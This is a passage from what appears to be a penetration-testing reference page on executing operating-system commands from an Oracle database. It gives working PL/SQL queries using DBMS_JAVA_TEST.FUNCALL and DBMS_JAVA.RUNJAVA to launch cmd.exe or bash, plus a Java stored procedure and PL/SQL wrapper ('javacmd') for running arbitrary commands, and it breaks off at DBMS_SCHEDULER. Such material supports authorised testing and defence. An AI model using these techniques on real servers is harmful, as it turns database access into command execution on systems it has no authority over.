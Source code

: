 ```plsql
-- 10g R2, 11g R1 and R2: DBMS_JAVA_TEST.FUNCALL()
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','c:\\windows\\system32\\cmd.exe','/c', 'dir >c:\test.txt') FROM DUAL
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/bin/ls>/tmp/OUT2.LST') from dual

-- 11g R1 and R2: DBMS_JAVA.RUNJAVA()
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper /bin/bash -c /bin/ls>/tmp/OUT.LST') FROM DUAL
```

### **Oracle Java Store Procedure**

Alternatively, a very popular way to execute your command on the server is to write a **java stored procedure**.  This is done in three stages. First, create a Java class called ‘oraexec’. To do this, connect via ‘sqlplus’ terminal and write:

```plsql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

Next, write a PL/SQL wrapper for this class:

```plsql
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```

That’s it. Now, to execute a command, all you need is just to send the following query:

```plsql
exec javacmd('command');
```

{% hint style="info" %}
Note that when using the above procedure, we cannot see the results of executed command, however, you can redirect the output to a file and read it. You can find the full code of the shell that allows to read and write files.\
Here is a [more sophisticated script](https://oracle-base.com/articles/8i/shell-commands-from-plsql) that handles the command output
{% endhint %}

### **Oracle DBMS\_SCHEDULER**

The next method, which will help us if there is no Java virtual machine, is to use ‘**dbmsscheduler**’, the built-in task scheduler of Oracle
